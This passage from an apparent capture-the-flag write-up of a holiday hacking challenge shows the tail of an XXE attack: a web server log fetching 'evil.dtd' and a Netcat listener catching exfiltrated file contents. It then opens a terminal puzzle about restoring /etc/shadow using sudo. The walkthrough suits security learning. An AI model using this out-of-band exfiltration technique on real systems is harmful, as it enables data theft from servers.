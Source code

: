 If you also look at your SimpleHTTPServer, you will see a successful GET request was made for you DTD file.

```console
ubuntu@ip-172-31-24-12:~$ python -m SimpleHTTPServer 
Serving HTTP on 0.0.0.0 port 8000 ...
35.185.118.225 - - [29/Dec/2017 16:17:53] "GET /evil.dtd HTTP/1.1" 200 -
 ```

And following that, we should also see the contents of __C:\greatbook.txt__ in the URL parameter from the Netcat listener.

```console
ubuntu@ip-172-31-24-12:~$ nc -nvlp 4444
Listening on [0.0.0.0] (family 0, port 4444)
Connection from [35.185.118.225] port 4444 [tcp/*] accepted (family 2, sport 49877)
GET /?http://eaas.northpolechristmastown.com/xMk7H1NypzAqYoKw/greatbook6.pdf HTTP/1.1
Host: 18.218.75.54:4444
Connection: Keep-Alive
``` 

From here, all we need to do is navigate to http://eaas.northpolechristmastown.com/xMk7H1NypzAqYoKw/greatbook6.pdf and we will be able to see the 6th page of the Great Book.

<a href="https://jhalon.github.io/images/shh55.png"><img src="https://jhalon.github.io/images/shh55.png"></a>

## The Great Book: Page 7

### North Pole and Beyond - Oh Wait! Maybe We Are…

#### Terminal Challenge:

Upon accessing the CranPI Challenge we are presented with the following:

```console
              \ /
            -->*<--
              /o\
             /_\_\
            /_/_0_\
           /_o_\_\_\
          /_/_/_/_/o\
         /@\_\_\@\_\_\
        /_/_/O/_/_/_/_\
       /_\_\_\_\_\o\_\_\
      /_/0/_/_/_0_/_/@/_\
     /_\_\_\_\_\_\_\_\_\_\
    /_/o/_/_/@/_/_/o/_/0/_\
   jgs       [___]  
My name is Shinny Upatree, and I've made a big mistake.
I fear it's worse than the time I served everyone bad hake.
I've deleted an important file, which suppressed my server access.
I can offer you a gift, if you can fix my ill-fated redress.
Restore /etc/shadow with the contents of /etc/shadow.bak, then run "inspect_da_b
ox" to complete this challenge.
Hint: What commands can you run with sudo?
elf@24f154ad424a:~$ 
```
